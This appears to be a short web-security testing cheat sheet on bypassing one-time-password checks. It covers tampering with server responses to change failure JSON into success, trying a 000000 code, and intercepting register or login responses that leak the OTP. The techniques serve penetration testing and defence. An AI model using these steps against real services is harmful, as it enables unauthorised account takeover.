 ## Bypass OTP

Wrong Response | Manipulate Response
----------------|--------------------
**{"status":"0","message":"Incorrect OTP. Please Try Again"}** | **{"status":"1","message":"Correct OTP"}**
**{"error"}** | **{"Success"}**
**{"verificationStatus":false,"mobile":"+62xxxxxxxx","profileId":"450xxxxx"}** | **{"verificationStatus":true,"mobile":"+62xxxxxxxx","profileId":"450xxxxx"}**
**Input String On OTP if Blank Response Value 200 OK** | **Add number 1 on Value**
**Input Wrong Captcha if Response Value 7** | **Change 7 to 1**

##### Bypass OTP #2
> Input 000000 Code To Bypass OTP

---

#### Authentication Bypass Due OTP Exposure

##### Tips #1
1. Register/Login into the system
2. After that Intercept That Request and Intercept Response.
3. **{"status_code":200, "OTP":4800,"user_id":"ef0245zxxxxxxxxx"}**
4. Boom OTP expose on Response Register/Logged in.
5. Use OTP, Done

##### Tips #2
1. Input phone number, and hen send .
2. Intercept Request and intercept response.
3. {"msg":"success","OTP":601823}
4. Boom OTP Exposed.
5. You can use OTP, Done






